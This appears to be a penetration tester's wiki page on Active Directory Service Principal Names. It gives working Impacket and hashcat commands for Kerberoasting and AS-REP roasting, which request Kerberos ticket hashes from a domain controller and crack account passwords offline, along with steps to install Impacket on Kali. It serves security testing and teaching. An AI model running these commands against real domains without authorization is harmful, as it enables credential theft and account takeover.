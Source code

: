 ```yaml
---
description: >-
  Service Principal Names (SPNs) are a unique identifier tied to each instance
  of a Windows service that can delegate to authenticate using Kerberos
---
```


# service principle names (SPNs)

They allow a service running on a server to authenticate to client computers on a network. These are used primarily in Active Directory (AD) environments.

An SPN is tied to the logon account of the service, meaning it's possible for a user account to have multiple SPNs if it's running multiple services. If a service or user account has an SPN, then it's possible for that service or account to request a Kerberos ticket. This is where the potential for abuse can occur, and it's the basis for what's known as a Kerberoasting attack.

## Kerberoasting

Kerberoasting is a method where an attacker, even one without a high privilege level, can request Kerberos tickets for any user that has an SPN associated with their account. Since these tickets are encrypted with the user's password, they can then be taken offline and subjected to a brute force attack.

#### Testing for SPNs

To test for SPNs, you can use Impacket's GetUserSPNs tool. The tool allows you to request and export SPNs associated with a user account for offline cracking.&#x20;

```bash
impacket-GetUserSPNs -dc-ip 10.199.101.5 <domain>.local/<user>
impacket-GetUserSPNs -request -dc-ip 192.168.95.11 <domain>.local/<user>
```

Replace `<domain>.local` with the Fully Qualified Domain Name (FQDN) of your target, and `<user>` with the username you're interested in. The `-dc-ip` parameter specifies the IP address of the domain controller you're targeting.

Once you've gathered the SPNs, you can then attempt to crack the passwords offline using a tool like Hashcat. Here's an example of how to use Hashcat for this:

```bash
hashcat -m 13100 hashes.txt /mnt/hgfs/Host_Desktop/ -o cracked.txt
```

In this example, `-m 13100` specifies the mode (in this case, Kerberos 5 TGS-REP etype 23), `hashes.txt` is the file containing the SPN hashes you've exported, and `-o cracked.txt` is the output file for any cracked passwords.

## ASREPRoasting

If you do not have valid domain credentials, you can look to check if any of the users you do currently have, if the account has "Does not require pre-authentication" enabled, allowing for ASREPRoasting. You can use `GetNPUsers.py` from `Impacket`

```
python3 GetNPUsers.py <domain>/<username> -dc-ip <domain-controller-ip> -request
```

If the target user has "Does not require Kerberos pre-authentication" enabled, you will receive an AS-REP hash that can be cracked offline.

### Install on Kali

`GetNPUsers.py` is not included in Kali Linux by default. However, it is part of the `Impacket` suite, which you can install on Kali. Here’s how to set it up:

#### 1. **Install Impacket**

*   If you haven't already, clone the Impacket repository:

    {% code overflow="wrap" %}
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    ```
    {% endcode %}
*   Navigate to the Impacket directory:

    ```bash
    cd impacket
    ```
*   Install Impacket:

    ```
    sudo python3 -m pip install .
    ```

{% code overflow="wrap" %}
```bash
python3 examples/GetNPUsers.py <domain>/<username> -dc-ip <domain-controller-ip> -request
```
{% endcode %}

